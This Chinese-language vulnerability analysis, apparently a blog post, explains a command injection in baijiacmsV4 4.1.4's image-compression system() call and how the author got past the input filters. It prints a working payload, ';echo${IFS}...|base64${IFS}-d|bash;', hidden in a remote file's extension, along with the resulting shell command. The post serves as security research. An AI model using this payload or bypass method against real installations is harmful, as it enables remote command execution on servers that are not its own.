项目地址：https://github.com/baijiacms/baijiacmsV4
版本：V4.1.4 20170105 FINAL
环境：
- php 5.5.38
- nginx 1.15
- mysql 5.7.27
- 20.04.1-Ubuntu
漏洞点在文件includes/baijiacms/common.inc.php
第654行。

利用
这个system的功能本来是为了执行压缩图片的。所以要利用该漏洞，需要先登录后台，在附近设置中设置图片压缩比例，否则代码无法运行到此处。



其中poc可以使用一下代码生成，随后开启web服务确保可以被访问到即可
1 | import base64 |
原理
在该漏洞中，漏洞点为文件includes/baijiacms/common.inc.php
第654行的system()。该函数位于file_save()函数中。
1 | system('convert'.$quality_command.' '.$file_full_path.' '.$file_full_path); |

其中，$quality_command无法控制，能够控制的只有$file_full_path。
由于上一步调用file_save()的，是fetch_net_file_upload()函数的return部分

$file_full_path的定义往上翻为：
1 | $file_full_path = WEB_ROOT .$path . $extpath. $filename; |
所以能使用的payload只能存在于url后的文件名后缀中，且payload中由于代码功能的限制不能出现，
htmlspecialchars()
- includes/baijiacms.php line92 :$_GP = irequestsplite($_GP);
- &
- “
- ’
- <
- >
后缀 (pathinfo())
- includes/baijiacms/common.inc.php line 617 :$extention = pathinfo($url,PATHINFO_EXTENSION );
- .
file_get_contents()
- includes/baijiacms/common.inc.php line632 :if (file_put_contents($file_tmp_name, file_get_contents($url)) == false) {
- 空格
文件名
- web服务器系统类型，在windows下限制颇多
- windows
- \
- /
- :
- *
- ?
- |
- linux
- /
htmlspecialchars()
在该系统中，所有的参数都会经过includes/baijiacms.php进行htmlspecialchars过滤

所以payload中首先排除了 < > “ ‘ &这些符号
pathinfo()
pathinfo()会返回文件路径的信息

1 | $extention = pathinfo($url,PATHINFO_EXTENSION ); |
代码中传入了PATHINFO_EXTENSION参数，根据官方介绍，传入该参数，只会返回最后一个扩展名，扩展名以 . 划分。结合后面的分析，所以payload只能存在与扩展名中

file_get_contents()
这一步有两个条件，首先file_get_contents()需要可以get到文件，其次文件中需要有内容满足file_put_contents()
1 | if (file_put_contents($file_tmp_name, file_get_contents($url)) == false) |

$settings[‘image_compress_openscale’]
最后在file_save()中还有一步
1 | if(!empty($settings['image_compress_openscale'])) |

这一步在略读了代码后才知道，它由函数globaPriveteSystemSetting()获的，取自数据库中。

略读代码后才知道，这个需要在后台中开启图片上传压缩才会在数据库中建立数据。以便后续读取。
所以需要在后台的附件设置中开启并设置图片压缩比例（具体数字随意）

具体利用过程解析
这端url中，主要起作用的是url参数，其他的只是陪跑的（但是也不能删）。url参数原本是远程图片地址。
首先在自己的vps上设置payload，这里我设置的命令为whoami，为了便于区分payload，文件名也取名为whoami。然后使用python开启web服务。

然后登录baijiacms后台，设置一个压缩比例，保存，然后访问
然后我们来看debug。
代码运行到fetch_net_file_upload函数中，走到$extention = pathinfo($url,PATHINFO_EXTENSION );时，截取到了payload：;echo${IFS}d2hvYW1p|base64${IFS}-d|bash;

随后是mkdir根据时间，后缀，建立文件夹。之后来到if (file_put_contents($file_tmp_name, file_get_contents($url)) == false) 进行判断，这边我为了方便查看file_get_contents和file_put_contents哪个会出问题，多加了两行代码。
1 | $flag1 = file_put_contents($file_tmp_name,"1"); |
在这里之后进入file_save() 。传入了关键的变量
$file_full_path：/www/admin/localhost_80/wwwroot/baijiacmsV4-4.1.4/attachment/;echo${IFS}d2hvYW1p|base64${IFS}-d|bash;/2022/11/G55bRGvfRVr00o3.;echo${IFS}d2hvYW1p|base64${IFS}-d|bash;

这边经过几个判断后，最后到达system()，最终传入的命令为。
convert -quality 100 /www/admin/localhost_80/wwwroot/baijiacmsV4-4.1.4/attachment/;echo${IFS}d2hvYW1p|base64${IFS}-d|bash;/2022/11/AFqEQN31zocEeu1.;echo${IFS}d2hvYW1p|base64${IFS}-d|bash; /www/admin/localhost_80/wwwroot/baijiacmsV4-4.1.4/attachment/;echo${IFS}d2hvYW1p|base64${IFS}-d|bash;/2022/11/AFqEQN31zocEeu1.;echo${IFS}d2hvYW1p|base64${IFS}-d|bash;
由于代码中会根据后缀建立文件夹，所以在system中，payload一共会执行四次，也就是为什么在执行whoami这个payload是，会输出4个www。

nothing
在写测试的命令时，如果要用到ping dnslog这类命令，由于linux默认是会一直ping下去的。所以最好加一个-c 4限制次数（系统被搞崩了好多次）
php中单引号的字符串和双引号的字符串差距还是挺大的。https://www.cnblogs.com/youxin/archive/2012/02/13/2348551.html。因为这个特性，测试的时候被卡了好久